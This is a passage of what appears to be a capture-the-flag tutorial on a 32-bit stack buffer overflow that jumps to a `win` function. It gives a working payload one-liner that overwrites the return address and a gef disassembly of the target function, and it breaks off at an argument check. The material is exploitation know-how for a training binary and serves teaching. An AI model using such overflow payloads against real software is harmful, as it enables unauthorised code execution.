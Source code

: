```
            |                         |
    0x1fff  +-------------------------+

```

When we jump to a subroutine, the callee assumes that the caller has set up the stack correctly. For example, when we call `win`, the program expects that `arg1` and `arg2` are placed on the stack in the correct positions by the caller. However, this expectation is not met if we force the program to jump to win by overriding the return pointer. In this case, when `win` tries to access `arg1` and `arg2`, it will end up reading arbitrary data from the stack.

First, we'll need the address of `win`:

```bash
$ nm ./vuln | grep "win"
08049296 T win
```

Then create a payload and save it to a file:

```bash
python3 -c 'import sys;sys.stdout.buffer.write(b"A" * 112 + b"\x96\x92\x04\x08" + b"B" * 4 + b"C" * 4 + b"D" * 4)' > payload
```

Next, set a breakpoint at the first `cmp` check and run the program:

```bash
gef➤  disass win
Dump of assembler code for function win:
   0x08049296 <+0>:     endbr32
   0x0804929a <+4>:     push   ebp
   0x0804929b <+5>:     mov    ebp,esp
   0x0804929d <+7>:     push   ebx
   0x0804929e <+8>:     sub    esp,0x54
   0x080492a1 <+11>:    call   0x80491d0 <__x86.get_pc_thunk.bx>
   0x080492a6 <+16>:    add    ebx,0x2d5a
   0x080492ac <+22>:    sub    esp,0x8
   0x080492af <+25>:    lea    eax,[ebx-0x1ff8]
   0x080492b5 <+31>:    push   eax
   0x080492b6 <+32>:    lea    eax,[ebx-0x1ff6]
   0x080492bc <+38>:    push   eax
   0x080492bd <+39>:    call   0x8049160 <fopen@plt>
   0x080492c2 <+44>:    add    esp,0x10
   0x080492c5 <+47>:    mov    DWORD PTR [ebp-0xc],eax
   0x080492c8 <+50>:    cmp    DWORD PTR [ebp-0xc],0x0
   0x080492cc <+54>:    jne    0x80492f8 <win+98>
   0x080492ce <+56>:    sub    esp,0x4
   0x080492d1 <+59>:    lea    eax,[ebx-0x1fed]
   0x080492d7 <+65>:    push   eax
   0x080492d8 <+66>:    lea    eax,[ebx-0x1fd8]
   0x080492de <+72>:    push   eax
   0x080492df <+73>:    lea    eax,[ebx-0x1fa3]
   0x080492e5 <+79>:    push   eax
   0x080492e6 <+80>:    call   0x80490e0 <printf@plt>
   0x080492eb <+85>:    add    esp,0x10
   0x080492ee <+88>:    sub    esp,0xc
   0x080492f1 <+91>:    push   0x0
   0x080492f3 <+93>:    call   0x8049130 <exit@plt>
   0x080492f8 <+98>:    sub    esp,0x4
   0x080492fb <+101>:   push   DWORD PTR [ebp-0xc]
   0x080492fe <+104>:   push   0x40
   0x08049300 <+106>:   lea    eax,[ebp-0x4c]
   0x08049303 <+109>:   push   eax
   0x08049304 <+110>:   call   0x8049100 <fgets@plt>
   0x08049309 <+115>:   add    esp,0x10
   0x0804930c <+118>:   cmp    DWORD PTR [ebp+0x8],0xcafef00d
```